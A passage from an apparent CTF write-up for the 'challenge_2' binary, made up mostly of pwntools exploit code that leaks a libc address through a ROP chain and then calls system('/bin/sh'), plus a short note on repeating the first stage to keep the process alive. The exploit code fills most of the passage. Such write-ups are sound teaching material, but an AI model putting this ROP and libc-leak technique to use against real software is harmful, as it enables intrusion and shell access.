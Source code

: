 ```python
heap = b'A'*0x16 + p64(pop_rdi)
data = p16(0x32) + pad + b'rR' + b'A'*0x4 + p16(0x1e) + heap

config_path = "config_file_path"
f = open(config_path, "wb")

f.write(data)
f.flush()

io = start([config_path])

leak = io.recv(6).strip().ljust(8,b"\x00")

libc.address = u64(leak) - 0x10e1e0
binsh = next(libc.search(b"/bin/sh\x00"))

payload = p64(pop_rdi) + p64(binsh) + p64(libc.sym.system)
pad = payload + b'A'*(0x32 - len(payload))
heap = b'A'*0x16 + p64(pop_rdi)
data = p16(0x32) + pad + b'rR' + b'A'*0x4 + p16(0x20) + heap

f.write(data)
f.flush()

io.interactive()

```

![Untitled](/CTF/interruptlabsctf-31.png)

As expected the **binary finishes execution** before we can append the **second stage** to the config file. To keep it alive long enough, we need to prevent it from exiting. For this reason, I chose to **repeat** the first stage **10,000 times**.

```python
from pwn import *

exe = ELF("./challenge_2")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.terminal = ["tmux", "splitw", "-h"]

context.log_level = 'debug'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
start
'''.format(**locals())

rop = ROP(exe)
pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address

payload = p64(pop_rdi) + p64(exe.got.read) + p64(exe.sym.printf) + p64(0x401764)
pad = payload + b'A'*(0x32 - len(payload))
heap = b'A'*0x16 + p64(pop_rdi)
data = p16(0x32) + pad + b'rR' + b'A'*0x4 + p16(0x1e) + heap

config_path = "config_file_path"
```